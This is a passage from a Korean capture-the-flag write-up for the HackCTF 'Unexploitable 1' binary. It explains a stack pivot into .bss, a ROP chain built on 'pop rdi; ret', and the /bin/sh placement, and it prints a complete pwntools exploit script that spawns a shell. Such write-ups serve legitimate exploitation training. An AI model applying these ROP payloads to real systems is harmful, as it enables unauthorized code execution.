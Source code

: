     main+113으로 돌아왔을때의 상황이다. 현 rbp를 보면 0x601970으로 바뀐것을 확인 할 수 있다. 여기서 이제 fgets가 호출되면 0x601970으로 /bin/sh를 보내면 된다. 그다음 ret 진행될때를 보면
<br><br><br>
    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%201/Untitled%209.png)

    호출되는 주소가 우리가 입력한 .bss 주소 + 0x18 의 위치에 있는 값이다. 따라서 +0x10만큼 더미값을 채워주고  **"pop rdi; ret;" + /bin/sh 주소 + "gift+9위치"** 이렇게 붙여주면된다. gift+9로 돌아가는 이유는 rdi에 이상한 문자열을 넣는 부분을 건너띄고 우리고 넣은 rdi로 system함수를 호출하기 위함이다.
<br><br><br>
    정리하자면 우리가 입력한 .bss(0x601960) 을 기준으로 +0x18에서 ret가 한번 호출되고, 그다음 +0x28 위치에서 한번더 ret가 호출된다.
<br><br><br>

    최종익스코드는 다음과 같다
    
```python
from pwn import *
context.log_level="DEBUG"
#p=remote("ctf.j0n9hyun.xyz", 3023)
p=process("./Unexploitable_1",aslr=False)
gdb.attach(p)

e=ELF("./Unexploitable_1")

payload="A"*0x18
payload+=p64(0x0000000000400630) # pop rbp ret
payload+=p64(0x0000000000601060+0x10+0x900)   # .bss
payload+=p64(0x000000000040074d) # main+113

p.recvuntil("\n")
p.sendline(payload)

payload2="/bin/sh\x00"+"B"*0x10+p64(0x00000000004007d3)+p64(0x0000000000601060+0x900)+p64(0x00000000004006cf)+"\x00"
p.sendline(payload2)
p.interactive()
```

<br><br>
참고로 .bss 영역에서 +0x900을 해준 이유는 다음과 같다

.bss영역의 주소는 "readelf -S 바이너리 " 를 이용해서 구하였는데 처음에 구한 주소는 0x601060 이였다. 이 주소를 가지고 익스를 진행하면 system 함수의 처리 로직 중에 **_dl_runtime_resolve_xsave+15**  부분에서 에러가 발생한다.
<br><br>
그 이유는 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%201/Untitled%2010.png)

**_dl_runtime_resolve_xsave+15** 이 부분에서 [rsp]에 값을 복사하는데, 해당 영역은 쓰기 권한이 없으므로 에러가 나는 것이다. 따라서 해당 부분이 실행될 때 쓰기 권한이 존재하는 영역에서 진행될수 있게 적당히 +0x900을 넣어준것이다. (틀리면 말해주십쇼)